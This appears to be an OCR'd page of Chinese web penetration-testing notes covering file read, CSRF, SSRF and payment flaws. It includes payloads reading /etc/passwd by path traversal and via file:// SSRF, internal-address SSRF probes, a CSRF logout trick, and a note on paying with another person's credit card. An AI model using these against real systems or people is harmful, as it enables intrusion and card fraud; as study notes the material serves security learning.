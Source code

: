 ###  RCE

### 任意文件读取

```
http://www.example.com?achtion=cat&file=../../../etc/passwd
```

### csrf

攻击者使用自己的账号构造操作请求包，当受害者访问时会进行相应操作如：修改密码、转账

类似于 ssrf 可在很多位置操作，如：修改资料将头像修改为退出登录（直接提交访问 `https://xxxxxxxxx.com/logout` 会退出登录可能不收，可进行 csrf 的二次利用，）

```
username=ggb&images=https://xxxxxxxxx.com/xxxxxxxxxxxx.png
可构造为用户退出
username=ggb&images=https://xxxxxxxxx.com/logout
此时加载受害者加载攻击者头像时就会退出登录，记得保存正常 的数据包，否则自己的账号会无法登录
```

### ssrf

利用 Web 访问目标内网 

```
http://example.com?url=http://192.168.1.1
http://example.com?url=http://localhost
http://example.com?url=file:///etc/passwd
http://example.com?url=file:///C:/Windows/win.ini
```

ssrf 常见位置

```
分享：通过URL地址分享网页内容
转码服务
在线翻译
图片加载与下载：通过URL地址加载或下载图片
图片、文章收藏功能
未公开的 api 实现以及其他调用 URL 的功能
URL 关键字：share,wap,url,link,src,source,target,u,3g,display,sourceURL,imageURL,domain
```

nday

```
https://blog.csdn.net/haha13l4/article/details/99099441
```

### sql 注入

### 支付漏洞 

越权支付

```
信用卡号和手机号不做绑定
用他人的信用卡支付，用自己的手机号接收验证码
```

